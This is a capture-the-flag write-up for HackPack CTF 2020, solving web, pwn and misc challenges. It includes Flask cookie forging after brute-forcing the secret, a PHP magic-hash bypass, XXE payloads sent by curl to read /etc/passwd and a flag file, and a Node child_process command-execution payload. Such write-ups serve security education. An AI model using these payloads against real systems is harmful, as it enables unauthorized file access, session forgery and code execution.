 ```yaml
---
layout: post
title: HackPack CTF 2020
categories: [Capture The Flag]
tags: [hackpack, web, pwn, misc]

---
```


[Hackpack](https://ctf2020.hackpack.club/challenges) is an educational CTF that aims to complement security courses at North Carolina State University. Date: vie, 17 abr. 2020, 17:00 UTC — mar, 28 abr. 2020, 03:59 UTC


## Web
- Cookie Forge. When we log in, a cookie named session appears (this is the JWT). In the Flagship Loyalty section, we see this Warning: "You aren't a Flagship Loyalty Member! No cookies for you!!".
```
flask-unsign -d -c 'eyJmbGFnc2hpcCI6dHJ1ZSwidXNlcm5hbWUiOiJhYSIsImFsZyI6IkhTMjU2In0.e30.yoxyotdennG9lsGnJNK1REYuSNqVUmN_ijyN26xO3z8'  
{'flagship': True, 'username': 'aa', 'alg': 'HS256'}
flask-unsign --server https://cookie-forge.cha.hackpack.club/orders --unsign  // bruteforce psw is password1
flask-unsign --sign --secret password1 --cookie "{'flagship': True, 'username': 'aa'}"
```
Editing the cookie, we get the flag.

- Treasure Map: 
https://treasure-map.cha.hackpack.club/robots.txt ->
view-source:https://treasure-map.cha.hackpack.club/treasuremap.xml ->
view-source:https://treasure-map.cha.hackpack.club/7BmqJfhWhEa30NeVj7j2.html -> Flag

- Super Secret Flag Vault: The Index.php file shows us a PHP script comparing a specific hash. For this, we use the well-known: PHP magic hashes. Where 0+e[0-9]+ compared with == returns true. For eg -'0e1' == '00e2'. We put as input "KnCM6ogsNA1W" whose hash is 00e73414578113850089230341919829.

- Paster: view-source -> src="frames/index.php" -> src="game-frame.js" where a JSfuck code appears. Using https://enkhee-osiris.github.io/Decoder-JSFuck/, we get:
```
parent.postMessage(window.location.toString(),"*");var originalAlert=window.alert;window.alert=function(t){parent.postMessage("success","*"),flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99"),setTimeout(function(){originalAlert("Congratulations, you executed an alert:\n\n"+t+"\n\nhere is the flag: "+flag)},50)};d
```
Inspect the site and, in the console section, write: flag=atob("ZmxhZ3t4NTVfaTVOdF83aEE3X2JBRF9SMUdoNz99") -> "flag{x55_i5Nt_7hA7_bAD_R1Gh7?}"

- Custom UI: Inserting '<', we get "Warning: DOMDocument::loadXML():". This is a [XML External Entity Injection](https://portswigger.net/web-security/xxe).
We see that there is a xdata variable, so we can inject here our data. xdata: <1button><1color> mn<1/color><1value><1/value><1/button>
Injection: 
```
<1!DOCTYPE foo [<1!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><1button><1color>&xxe;<1/color><1value>iii<1/value><1/button>
```
[URL encoded](https://www.urlencoder.org/): 
```
%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```
```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e
```

Changing the cookie to True:

```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fpasswd%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
...
</div>
<!-- TODO: Delete flag.txt from /etc/ --></body>
...

```
Injection: 
```
<1!DOCTYPE foo [<1!ENTITY xxe SYSTEM "file:///etc/flag.txt"> ]><1button><1color>&xxe;<1/color><1value>iii<1/value><1/button>
```
```
curl "https://custom-ui.cha.hackpack.club/" -d xdata=%3c!DOCTYPE%20foo%20[%3c!ENTITY%20xxe%20SYSTEM%20%22file%3a%2f%2f%2fetc%2fflag.txt%22%3e%20]%3e%3cbutton%3e%3ccolor%3e%26xxe%3b%3c%2fcolor%3e%3cvalue%3eiii%3c%2fvalue%3e%3c%2fbutton%3e -v --cookie "debug=true"
```
And we get the flag.

## PWN 
- Jsclean: the python file is asking for a js file and a js code. In the python script we can see that it refers to index.js, so we know that this is the file to clean: index.js and the js code is: 
```
require("child_process").exec("cat flag.txt", function(error, stdout, stderr){console.log(stdout);});
```

## Misc
- Soundy: using a sstv decoder.
![]({{ site.baseurl }}/images/HackPack-sstv.jpeg)
-Listen up!: when we use the exiftool command, we get a comment with an [URL](https://www.youtube.com/watch?v=2xZgCVG_Bzk) about MS Paint EXE file. We need to convert the audio to RAW format (it is the uncompressed audio).

